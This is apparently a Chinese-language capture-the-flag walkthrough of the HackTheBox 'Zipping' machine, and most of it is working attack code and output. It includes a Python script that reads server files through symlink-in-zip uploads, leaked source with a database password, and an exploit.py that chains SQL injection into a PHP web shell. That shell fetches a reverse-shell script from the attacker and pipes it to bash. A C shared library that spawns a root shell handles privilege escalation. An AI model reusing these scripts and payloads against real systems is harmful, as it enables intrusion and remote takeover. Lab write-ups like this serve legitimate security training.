IP:10.10.11.229

nmap结果

```bash
# Nmap 7.92 scan initiated Sat Nov 25 06:21:37 2023 as: nmap -sC -sV --min-rate 10000 -oN nmap 10.10.11.229
Nmap scan report for 10.10.11.229
Host is up (0.42s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
|_  256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 25 06:22:01 2023 -- 1 IP address (1 host up) scanned in 24.12 seconds
```

WORK WITH US界面存在上传功能


从描述中可以看出，上传的文件必须是pdf经过zip压缩后的压缩文件

测试文件



```bash
┌──(kali㉿kali)-[~/htb/Zipping]
└─$ 7z -l test.zip

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,32 CPUs AMD Ryzen 5 5600X 6-Core Processor              (A20F10),ASM,AES-NI)


Command Line Error:
Unsupported command:
test.zip
                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~/htb/Zipping]
└─$ 7z l test.zip 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,32 CPUs AMD Ryzen 5 5600X 6-Core Processor              (A20F10),ASM,AES-NI)

Scanning the drive for archives:
1 file, 198 bytes (1 KiB)

Listing archive: test.zip

--
Path = test.zip
Type = zip
Physical Size = 198

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2023-09-02 05:10:18 .....           32           32  test.pdf
------------------- ----- ------------ ------------  ------------------------
2023-09-02 05:10:18                 32           32  1 files

```


test.pdf文件内容



先找出upload.php的源码



LFI.py读取文件

```python
import os
from bs4 import BeautifulSoup
import requests
import shutil
if os.path.exists("tmp"):
    shutil.rmtree("tmp")
if os.path.exists("sym.zip"):
    os.remove("sym.zip")
if os.path.exists("symlink.pdf"):
    os.remove("symlink.pdf")
if not os.path.exists("tmp"):
            os.mkdir("tmp")
file_to_read = input("File to read: ")
print("Creating symlink..")
os.chdir("tmp/")
os.system(f"ln -s {file_to_read} symlink.pdf")
print("Zipping..")
os.system(f"zip -r --symlinks sym.zip symlink.pdf")
os.system(f"rm symlink.pdf && cp sym.zip ../")
print("Done! Zip file: sym.zip")

print("Uploading file..")
MIP = "10.10.11.229"
file = {'zipFile': ('sym.zip', open('sym.zip','rb'),'application/zip'),
        'submit': (None,'')         
       }
headers = {"Host":MIP,"User-Agent":"Mozilla/5.0 (X11;Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"}
s  = requests.Session()
r = s.get(f"http://{MIP}",headers=headers)
r = s.get(f"http://{MIP}/upload.php", headers=headers)
r = s.post(f"http://{MIP}/upload.php",files=file,headers=headers)

soup = BeautifulSoup(r.text,features="lxml")

uuid=""
for a in soup.find_all("a",href=True):
            if "uploads" in a['href']:
                                uuid = a['href'].split("/")[1]
                                print("File UUID: ",uuid)
                                print("\nReading file..")
                                r = s.get(f"http://{MIP}/uploads/{uuid}/symlink.pdf")
                                print(r.text)


```



index.php



functions.php

```php
┌──(kali㉿kali)-[~/htb/Zipping]
└─$ python3 ex.py
File to read: /var/www/html/shop/functions.php    
Creating symlink..
Zipping..
  adding: symlink.pdf (stored 0%)
Done! Zip file: sym.zip
Uploading file..
File UUID:  0054287564aa5d7a87e86fbe8bad8b22

Reading file..
<?php
function pdo_connect_mysql() {
    // Update the details below with your MySQL details
    $DATABASE_HOST = 'localhost';
    $DATABASE_USER = 'root';
    $DATABASE_PASS = 'MySQL_P@ssw0rd!';
    $DATABASE_NAME = 'zipping';
    try {
        return new PDO('mysql:host=' . $DATABASE_HOST . ';dbname=' . $DATABASE_NAME . ';charset=utf8', $DATABASE_USER, $DATABASE_PASS);
    } catch (PDOException $exception) {
        // If there is an error with the connection, stop the script and display the error.
        exit('Failed to connect to database!');
    }
}
// Template header, feel free to customize this
function template_header($title) {
$num_items_in_cart = isset($_SESSION['cart']) ? count($_SESSION['cart']) : 0;
echo <<<EOT
<!DOCTYPE html>
<html>
        <head>
                <meta charset="utf-8">
                <title>$title</title>
                <link href="assets/style.css" rel="stylesheet" type="text/css">
                <link rel="stylesheet" href="https://use.fontawesome.com/releases/v5.7.1/css/all.css">
        </head>
        <body>
        <header>
            <div class="content-wrapper">
                <a href=".." style="text-decoration: none;"><h1>Zipping Watch Store</h1></a>
                <nav>
                    <a href="index.php">Home</a>
                    <a href="index.php?page=products">Products</a>
                </nav>
                <div class="link-icons">
                    <a href="index.php?page=cart">
                                                <i class="fas fa-shopping-cart"></i>
                                                <span>$num_items_in_cart</span>
                                        </a>
                </div>
            </div>
        </header>
        <main>
EOT;
}
// Template footer
function template_footer() {
$year = date('Y');
echo <<<EOT
        </main>
        <footer>
            <div class="content-wrapper">
                <p>&copy; $year, Zipping Watch Store</p>
            </div>
        </footer>
    </body>
</html>
EOT;
}
?>

```

cart.php

```php
┌──(kali㉿kali)-[~/htb/Zipping]
└─$ python3 ex.py
File to read: /var/www/html/shop/cart.php
Creating symlink..
Zipping..
  adding: symlink.pdf (stored 0%)
Done! Zip file: sym.zip
Uploading file..
File UUID:  700e6918e8255c291df62d6a30a4cca0

Reading file..
<?php
// If the user clicked the add to cart button on the product page we can check for the form data
if (isset($_POST['product_id'], $_POST['quantity'])) {
    // Set the post variables so we easily identify them, also make sure they are integer
    $product_id = $_POST['product_id'];
    $quantity = $_POST['quantity'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match)) {
        echo '';
    } else {
        // Construct the SQL statement with a vulnerable parameter
        $sql = "SELECT * FROM products WHERE id = '" . $_POST['product_id'] . "'";
        // Execute the SQL statement without any sanitization or parameter binding
        $product = $pdo->query($sql)->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if ($product && $quantity > 0) {
            // Product exists in database, now we can create/update the session variable for the cart
            if (isset($_SESSION['cart']) && is_array($_SESSION['cart'])) {
                if (array_key_exists($product_id, $_SESSION['cart'])) {
                    // Product exists in cart so just update the quanity
                    $_SESSION['cart'][$product_id] += $quantity;
                } else {
                    // Product is not in cart so add it
                    $_SESSION['cart'][$product_id] = $quantity;
                }
            } else {
                // There are no products in cart, this will add the first product to cart
                $_SESSION['cart'] = array($product_id => $quantity);
            }
        }
        // Prevent form resubmission...
        header('location: index.php?page=cart');
        exit;
    }
}

// Remove product from cart, check for the URL param "remove", this is the product id, make sure it's a number and check if it's in the cart
if (isset($_GET['remove']) && is_numeric($_GET['remove']) && isset($_SESSION['cart']) && isset($_SESSION['cart'][$_GET['remove']])) {

    // Remove the product from the shopping cart
    unset($_SESSION['cart'][$_GET['remove']]);
}

// Update product quantities in cart if the user clicks the "Update" button on the shopping cart page
if (isset($_POST['update']) && isset($_SESSION['cart'])) {
    // Loop through the post data so we can update the quantities for every product in cart
    foreach ($_POST as $k => $v) {
        if (strpos($k, 'quantity') !== false && is_numeric($v)) {
            $id = str_replace('quantity-', '', $k);
            $quantity = (int)$v;
            // Always do checks and validation
            if (is_numeric($id) && isset($_SESSION['cart'][$id]) && $quantity > 0) {
                // Update new quantity
                $_SESSION['cart'][$id] = $quantity;
            }
        }
    }
    // Prevent form resubmission...
    header('location: index.php?page=cart');
    exit;
}

// Send the user to the place order page if they click the Place Order button, also the cart should not be empty
if (isset($_POST['placeorder']) && isset($_SESSION['cart']) && !empty($_SESSION['cart'])) {
    header('Location: index.php?page=placeorder');
    exit;
}

if (isset($_POST['clear'])) {
        unset($_SESSION['cart']);
}

// Check the session variable for products in cart
$products_in_cart = isset($_SESSION['cart']) ? $_SESSION['cart'] : array();
$products = array();
$subtotal = 0.00;
// If there are products in cart
if ($products_in_cart) {
    // There are products in the cart so we need to select those products from the database
    // Products in cart array to question mark string array, we need the SQL statement to include IN (?,?,?,...etc)
    $array_to_question_marks = implode(',', array_fill(0, count($products_in_cart), '?'));
    $stmt = $pdo->prepare('SELECT * FROM products WHERE id IN (' . $array_to_question_marks . ')');
    // We only need the array keys, not the values, the keys are the id's of the products
    $stmt->execute(array_keys($products_in_cart));
    // Fetch the products from the database and return the result as an Array
    $products = $stmt->fetchAll(PDO::FETCH_ASSOC);
    // Calculate the subtotal
    foreach ($products as $product) {
        $subtotal += (float)$product['price'] * (int)$products_in_cart[$product['id']];
    }
}
?>

<?=template_header('Zipping | Cart')?>

<div class="cart content-wrapper">
    <h1>Shopping Cart</h1>
    <form action="index.php?page=cart" method="post">
        <table>
            <thead>
                <tr>
                    <td colspan="2">Product</td>
                    <td>Price</td>
                    <td>Quantity</td>
                    <td>Total</td>
                </tr>
            </thead>
            <tbody>
                <?php if (empty($products)): ?>
                <tr>
                    <td colspan="5" style="text-align:center;">You have no products added in your Shopping Cart</td>
                </tr>
                <?php else: ?>
                <?php foreach ($products as $product): ?>
                <tr>
                    <td class="img">
                        <a href="index.php?page=product&id=<?=$product['id']?>">
                            " width="50" height="50" alt="<?=$product['name']?>">
                        </a>
                    </td>
                    <td>
                        <a href="index.php?page=product&id=<?=$product['id']?>"><?=$product['name']?></a>
                        <br>
                        <a href="index.php?page=cart&remove=<?=$product['id']?>" class="remove">Remove</a>
                    </td>
                    <td class="price">&dollar;<?=$product['price']?></td>
                    <td class="quantity">
                        <input type="number" name="quantity-<?=$product['id']?>" value="<?=$products_in_cart[$product['id']]?>" min="1" max="<?=$product['quantity']?>" placeholder="Quantity" required>
                    </td>
                    <td class="price">&dollar;<?=$product['price'] * $products_in_cart[$product['id']]?></td>
                </tr>
                <?php endforeach; ?>
                <?php endif; ?>
            </tbody>
        </table>
        <div class="subtotal">
            <span class="text">Subtotal</span>
            <span class="price">&dollar;<?=$subtotal?></span>
        </div>
        <div class="buttons">
            <input type="submit" value="Update" name="update">
            <input type="submit" value="Place Order" name="placeorder">
            <input type="submit" value="Clear" name="clear" onsubmit="">
        </div>
    </form>
</div>

<?=template_footer()?>


```

exploit.py

```python
import requests
import sys
import subprocess
import random

if len(sys.argv) < 2:
    print("Usage: python3 HTB_Zipping_poc.py <listener ip> <listener port>")
    sys.exit(1)

fnb = random.randint(10, 10000)
url = "http://zipping.htb/"

session = requests.Session()

print("[+] Please run nc in other terminal: rlwrap -cAr nc -nvlp " + f"{sys.argv[2]}")

print("[+] Write php shell /var/lib/mysql/rvsl" + str(fnb) + ".php")

with open('revshell.sh', 'w') as f:
        f.write("#!/bin/bash\n")
        f.write(f"bash -i >& /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1")
proc = subprocess.Popen(["python3", "-m", "http.server", "8000"])
phpshell = session.get(url + f"shop/index.php?page=product&id=%0A'%3bselect+'<%3fphp+system(\"curl+http%3a//{sys.argv[1]}:8000/revshell.sh|bash\")%3b%3f>'+into+outfile+'/var/lib/mysql/rvsl{fnb}.php'+%231")

print("[+] Get Reverse Shell")

phpshell = session.get(url + f"shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2frvsl{fnb}")

proc.terminate()
```





PE



```bash
rektsu@zipping:/home/rektsu$ strings /usr/bin/stock
strings /usr/bin/stock
/lib64/ld-linux-x86-64.so.2
mgUa
fgets
stdin
puts
exit
fopen
__libc_start_main
fprintf
dlopen
__isoc99_fscanf
__cxa_finalize
strchr
fclose
__isoc99_scanf
strcmp
__errno_location
libc.so.6
GLIBC_2.7
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u+UH
Hakaize
St0ckM4nager
/root/.stock.csv
Enter the password: 
Invalid password, please try again.
================== Menu ==================
1) See the stock
2) Edit the stock
3) Exit the program
Select an option: 
You do not have permissions to read the file
File could not be opened.
================== Stock Actual ==================
Colour     Black   Gold    Silver
Amount     %-7d %-7d %-7d
Quality   Excelent Average Poor
Amount    %-9d %-7d %-4d
Exclusive Yes    No
Amount    %-4d   %-4d
Warranty  Yes    No
================== Edit Stock ==================
Enter the information of the watch you wish to update:
Colour (0: black, 1: gold, 2: silver): 
Quality (0: excelent, 1: average, 2: poor): 
Exclusivity (0: yes, 1: no): 
Warranty (0: yes, 1: no): 
Amount: 
Error: The information entered is incorrect
%d,%d,%d,%d,%d,%d,%d,%d,%d,%d
The stock has been updated correctly.
;*3$"
GCC: (Debian 12.2.0-3) 12.2.0
Scrt1.o
__abi_tag
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.0
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
stock.c
__FRAME_END__
_DYNAMIC
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_start_main@GLIBC_2.34
__errno_location@GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__isoc99_fscanf@GLIBC_2.7
puts@GLIBC_2.2.5
stdin@GLIBC_2.2.5
_edata
fclose@GLIBC_2.2.5
_fini
strchr@GLIBC_2.2.5
fgets@GLIBC_2.2.5
__data_start
strcmp@GLIBC_2.2.5
dlopen@GLIBC_2.34
fprintf@GLIBC_2.2.5
__gmon_start__
__dso_handle
_IO_stdin_used
checkAuth
_end
__bss_start
main
fopen@GLIBC_2.2.5
__isoc99_scanf@GLIBC_2.7
exit@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@GLIBC_2.2.5
_init
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.got.plt
.data
.bss
.comment
rektsu@zipping:/home/rektsu$ 
```




```bash
┌──(kali㉿kali)-[~/htb/Zipping]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.14] from (UNKNOWN) [10.10.11.229] 55536
bash: cannot set terminal process group (1152): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<hop$ python3 -c 'import pty;pty.spawn("/bin/bash")'
rektsu@zipping:/var/www/html/shop$ sudo /usr/bin/stock
sudo /usr/bin/stock
Enter the password: St0ckM4nager
St0ckM4nager

================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

Select an option: 1
1

================== Stock Actual ==================

Colour     Black   Gold    Silver
Amount     0       0       0      

Quality   Excelent Average Poor
Amount    0         0       0   

Exclusive Yes    No
Amount    0      0   

Warranty  Yes    No
Amount    0      0   


================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

Select an option: 2
2

================== Edit Stock ==================

Enter the information of the watch you wish to update:
Colour (0: black, 1: gold, 2: silver): 1
1
Quality (0: excelent, 1: average, 2: poor): 0
0
Exclusivity (0: yes, 1: no): 0
0
Warranty (0: yes, 1: no): 0
0
Amount: 1
1
The stock has been updated correctly.

================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

Select an option: 

```

stock文件

```bash
rektsu@zipping:/usr/bin$ file stock
file stock
stock: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aa34d8030176fe286f8011c9d4470714d188ab42, for GNU/Linux 3.2.0, not stripped
rektsu@zipping:/usr/bin$ 
```



```bash
rektsu@zipping:/usr/bin$ strace stock
strace stock
execve("/usr/bin/stock", ["stock"], 0x7ffd75cd8590 /* 15 vars */) = 0
brk(NULL)                               = 0x555976c07000
arch_prctl(0x3001 /* ARCH_??? */, 0x7ffca447e0a0) = -1 EINVAL (Invalid argument)
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7fe96824d000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
newfstatat(3, "", {st_mode=S_IFREG|0644, st_size=18225, ...}, AT_EMPTY_PATH) = 0
mmap(NULL, 18225, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7fe968248000
close(3)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\3206\2\0\0\0\0\0"..., 832) = 832
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 784, 64) = 784
newfstatat(3, "", {st_mode=S_IFREG|0644, st_size=2072888, ...}, AT_EMPTY_PATH) = 0
pread64(3, "\6\0\0\0\4\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0@\0\0\0\0\0\0\0"..., 784, 64) = 784
mmap(NULL, 2117488, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7fe968000000
mmap(0x7fe968022000, 1544192, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x22000) = 0x7fe968022000
mmap(0x7fe96819b000, 356352, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x19b000) = 0x7fe96819b000
mmap(0x7fe9681f2000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1f1000) = 0x7fe9681f2000
mmap(0x7fe9681f8000, 53104, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7fe9681f8000
close(3)                                = 0
mmap(NULL, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7fe968245000
arch_prctl(ARCH_SET_FS, 0x7fe968245740) = 0
set_tid_address(0x7fe968245a10)         = 28125
set_robust_list(0x7fe968245a20, 24)     = 0
rseq(0x7fe968246060, 0x20, 0, 0x53053053) = 0
mprotect(0x7fe9681f2000, 16384, PROT_READ) = 0
mprotect(0x555974cab000, 4096, PROT_READ) = 0
mprotect(0x7fe968283000, 8192, PROT_READ) = 0
prlimit64(0, RLIMIT_STACK, NULL, {rlim_cur=8192*1024, rlim_max=RLIM64_INFINITY}) = 0
munmap(0x7fe968248000, 18225)           = 0
newfstatat(1, "", {st_mode=S_IFSOCK|0777, st_size=0, ...}, AT_EMPTY_PATH) = 0
getrandom("\xcb\x40\xbe\x31\x0e\x8d\x6c\x13", 8, GRND_NONBLOCK) = 8
brk(NULL)                               = 0x555976c07000
brk(0x555976c28000)                     = 0x555976c28000
newfstatat(0, "", {st_mode=S_IFSOCK|0777, st_size=0, ...}, AT_EMPTY_PATH) = 0
read(0, 
"\n", 4096)                     = 1
write(1, "Enter the password: Invalid pass"..., 56Enter the password: Invalid password, please try again.
) = 56
exit_group(1)                           = ?
+++ exited with 1 +++
rektsu@zipping:/usr/bin$ 

```

本地没法使用





libcounter.c

```
#include<stdio.h>
#include<stdlib.h>
void vuln_func() {
	system("/bin/sh");
}
__attribute__((constructor))
void setup() {
	vuln_func();
}
```



将.so文件上传到靶机




